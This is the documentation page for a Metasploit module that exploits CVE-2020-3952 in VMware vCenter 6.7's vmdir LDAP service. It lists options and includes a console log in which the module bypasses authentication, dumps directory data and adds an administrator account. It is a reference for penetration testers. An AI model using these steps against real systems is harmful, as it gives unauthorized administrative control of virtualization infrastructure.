 ## Vulnerable Application

### Description

This module bypasses LDAP authentication in VMware vCenter Server's
vmdir service to add an arbitrary administrator user.

Version 6.7 prior to the 6.7U3f update is vulnerable. Only installations
upgraded from a previous release line, such as 6.0 or 6.5, are affected.
Clean installations of 6.7 are unaffected.

### Setup

Tested in the wild. No setup notes available at this time.

### Actions

```
Name  Description
----  -----------
Add   Add an admin user
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to the username for the new admin user that will be added.

### PASSWORD

Set this to the password for the new admin user that will be added.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7

```
msf5 > use auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > options

Module options (auxiliary/admin/ldap/vmware_vcenter_vmdir_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password of admin user to add
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     389              yes       The target port
   USERNAME                   no        Username of admin user to add


Auxiliary action:

   Name  Description
   ----  -----------
   Add   Add an admin user


msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set username msfadmin
username => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > set password msfadmin
password => msfadmin
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) > run
[*] Running module against [redacted]

[*] Using auxiliary/gather/vmware_vcenter_vmdir_ldap as check
[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:389
[+] [redacted]:389 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002255_default_[redacted]_VMwarevCenterS_975097.txt
[*] Password and lockout policy:
dn: cn=password and lockout policy,dc=vsphere,dc=local
cn: password and lockout policy
enabled: TRUE
ntsecuritydescriptor:: [redacted]
objectclass: top
objectclass: vmwLockoutPolicy
objectclass: vmwPasswordPolicy
objectclass: vmwPolicy
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[*] Bypassing LDAP auth in vmdir service at [redacted]:389
[*] Adding admin user msfadmin with password msfadmin
[+] Added user msfadmin, so auth bypass was successful!
[+] Added user msfadmin to admin group
[*] Auxiliary module execution completed
msf5 auxiliary(admin/ldap/vmware_vcenter_vmdir_auth_bypass) >
```
